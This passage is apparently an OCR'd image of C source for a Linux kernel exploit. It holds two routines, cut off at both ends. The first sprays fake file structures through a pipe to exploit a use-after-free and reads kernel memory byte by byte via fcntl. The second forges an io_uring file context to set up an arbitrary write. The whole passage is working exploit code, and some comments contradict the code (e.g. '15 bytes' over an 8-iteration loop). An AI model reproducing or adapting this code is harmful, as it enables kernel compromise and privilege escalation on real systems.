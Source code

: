 ```
    // Set the inode address
    uint64_t inode_addr_base = addr - HINT_OFF;

    // Set up the buffer for the arbitrary read
    unsigned char buf[4096] = { 0 };

    // Iterate 15 times to read 15 bytes
    for (size_t i = 0; i < 8; i++)
    {
        // Calculate inode address
        uint64_t target = inode_addr_base + i;

        // Set up a fake file 16 times (number of files per page), we don't know
        // yet which of the 16 slots our UAF file is at
        reset_pipe_buf();
        *(uint64_t *)&buf[0x20]  = target;
        *(uint64_t *)&buf[0x120] = target;
        *(uint64_t *)&buf[0x220] = target;
        *(uint64_t *)&buf[0x320] = target;
        *(uint64_t *)&buf[0x420] = target;
        *(uint64_t *)&buf[0x520] = target;
        *(uint64_t *)&buf[0x620] = target;
        *(uint64_t *)&buf[0x720] = target;
        *(uint64_t *)&buf[0x820] = target;
        *(uint64_t *)&buf[0x920] = target;
        *(uint64_t *)&buf[0xa20] = target;
        *(uint64_t *)&buf[0xb20] = target;
        *(uint64_t *)&buf[0xc20] = target;
        *(uint64_t *)&buf[0xd20] = target;
        *(uint64_t *)&buf[0xe20] = target;
        *(uint64_t *)&buf[0xf20] = target;

        // Create the content
        write(g_pipe.fd[PIPE_WRITE], buf, 4096);

        // Read one byte back
        uint64_t arg = 0;
        if (fcntl(g_uaf_fd, F_GET_RW_HINT, &arg) == -1)
        {
            err("`fcntl()` failed");
        };

        // Add to comm buf
        comm[i] = arg;
    }
}

void write_setup_ctx(char *buf, uint32_t what, uint64_t where)
{
    // Copy our copied real ring fd 
    memcpy(&buf[g_off], g_ring_copy, 256);

    // Set f->f_count to 1 
    uint64_t *count = (uint64_t *)&buf[g_off + 0x38];
    *count = 1;

    // Set f->private_data to our scratch space
    uint64_t *private_data = (uint64_t *)&buf[g_off + 0xc8];
    *private_data = g_scratch;

    // Set ctx->cqe_cached
    size_t cqe_cached = g_scratch + 0x240;
    cqe_cached &= 0xFFF;
```